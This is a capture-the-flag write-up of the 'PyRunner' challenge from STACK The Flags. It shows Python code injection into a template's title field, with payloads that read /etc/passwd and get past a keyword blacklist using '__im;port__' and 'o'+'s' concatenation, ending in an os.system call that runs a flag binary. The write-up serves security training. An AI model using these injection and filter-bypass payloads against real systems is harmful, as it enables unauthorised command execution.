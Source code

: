 # STACK The Flags CTF Writeup

**STACK The Flags** (*Category 2: University, Polytechnics*)

Link: https://ctf.hackthebox.com/event/747

Challenge: PyRunner

![](./images/Pasted%20image%2020221203160910.png)

---

## Target

The target is `157.245.52.169:32757`, which seems to serve a simple webapp that executes Python templates:

![](./images/Pasted%20image%2020221203010534.png)

Interacting with the dropdown displays another template, `Webserver Template Duplicate` which, when selected, renders an **Arguments** section below the (disabled/non-editable) template source, allowing us to create new templates with a `title`, `host` and `port`:

![](./images/Screenshot%202022-12-03%20at%201.10.02%20AM.png)

Ok, so this challenge seems like it will deal with **command injection**, specifically—injecting a malicious command into one of those input fields.

### Files

The challenge also provided us with the source code for the webapp:

![](./images/Pasted%20image%2020221203060133.png)

Some files of interest:

![](./images/Pasted%20image%2020221203012946.png)
![](./images/Pasted%20image%2020221203013012.png)

So this is _definitely_ a command injection / arbitrary command execution challenge. But first, I have to figure out which of the 3 input fields is vulnerable to injection.

When a newly-created template is run, the server calls the `run_template` function, which extracts the arguments passed through the 3 input fields and passes them through a rudimentary word filter which replacing certain blacklisted plaintext strings with empty strings, `""`.

```py
contents.replace(f"<{argument}>", textfilter(data["arguments"][argument]))
```

```py
# textfilter function pretty much just replaces instances
# of the following strings with an empty string, ""
disallowed = ["import", ";", "\n", "eval", "exec", "os"]
# system isn't blacklisted...
```

I find that `title` is the only passed argument that gets printed out in the server-hosted `template.py` file (line 11), so this will be my target input to inject commands into.

```py
print("Webserver: <title>")
#                  ^^^^^
```

So the general format of the injection will look something like `test>", {injection}) #` , which will turn the line above into:

```py
print("Webserver: <test>", {injection}) #")
```

### Command Injection

First I tried a simple injection just to check if I can get the server to perform some sort of calculation, to confirm that the injection was successful:

`test>", 1+2) #`

![](./images/Pasted%20image%2020221203015436.png)

_Niiice_, arbitrary command execution. Now to figure out how to spit out stuff that is actually useful.

---

`test>", system("ls")) #`

Since `system` isn't blocked, I can theoretically use it for command execution, however it isn't imported in `template.py`, so (predictably) this injection fails for this exact reason:

![](./images/Pasted%20image%2020221203014700.png)

Maybe I can import it inline? Going for a `system` call seems like the obvious approach, however, `;` are filtered out, as well as `import`, so there's some thinking to be done before I can use it.

---

After some time studying python command injection, I found that imports can be done via many alternative syntaxes, specifically:

- `__import__("os").system("ls")`
- `imp.os.system("ls")`

These might come in handy, however they still fail since either `import` or `os` is still present in the command string:

`test>", __import__('os').system('ls -la')) #>")`

![](./images/Pasted%20image%2020221203023737.png)

---

Time to switch gears, let's see what I can do with other commands which aren't blacklisted.

`test>", open("/etc/passwd").read()) #>")`

![](./images/Pasted%20image%2020221203030819.png)

_Very interesting_. Ok, so open seems promising, but I'm not sure if it's necessarily useful since I don't know
the filename or location of the flag... (Hindsight: turns out I _did_ know via included `Dockerfile`, but I ended up
going with a different approach.)

---

### What about the filenames?

Every created template is saved with a randomly generated filename:

![](./images/Pasted%20image%2020221203032208.png)

and the server sends back a response containing a computed output by a **juicy** `subprocess.run()` call that can run _anything_ in the `/scripts` directory…

![](./images/Pasted%20image%2020221203032329.png)

![](./images/Pasted%20image%2020221203032250.png)

Maybe I can write a malicious script to the location of an existing template?

But how do I get around the random `filename` generation? On second thought, this doesn't seem like the right approach (hindsight: it wasn't).

---

### Back to inline import approach

After messing around with some more ideas on how to bypass the blacklist, I discovered that I can get
the string `"import"` through the filter by sticking a `;` in it, however it didn't work for `"os"`—which I discovered
I can bypass by simply concatenating `“o” + “s”`:

`test>", __im;port__('o'+'s').system('ls -la')) #>")`

![](./images/Screenshot%202022-12-03%20at%204.17.54%20AM.png)

Very close! Now it's just a matter of finding the flag in the filesystem. Since semicolons are blacklisted (filtered out), let's try using `&&` to chain commands:

`test>", __im;port__('o'+'s').system('cd .. && ls -la')) #>")`

![](./images/Pasted%20image%2020221203043442.png)

Finally, I found a file named `readflag`, however I can't seem to `cat` it out, nor can I `file readflag` its contents to even identify what it is. So using `stat`, I get some more information about this `cat`-immune file:

`test>", __im;port__('o'+'s').system('cd ../&& ls -la && stat readflag')) #>")`

![](./images/Pasted%20image%2020221203045642.png)

Very close! Now it's just a matter of finding the flag in the filesystem. Since semicolons are blacklisted
(filtered out), let's try using `&&` to chain commands:

`test>", __im;port__('o'+'s').system('cd ../&& ls -la && stat readflag && od -c -tx1 readflag')) #>")`

![](./images/Pasted%20image%2020221203050617.png)

Finally, I found a `readflag` file, which (given the included `Dockerfile`) we know is an executable binary.

![](./images/Pasted%20image%2020221204195414.png)

### Final payload:

```
test>",__im;port__('o'+'s').system('cd ../&& ls -la && stat readflag && ./readflag')) #
```

![](./images/Pasted%20image%2020221204210105.png)

### 🏴‍☠️ Flag:

```
STF22{4ut0m4t3d_c0mm4nd_1nj3ct10n}
```

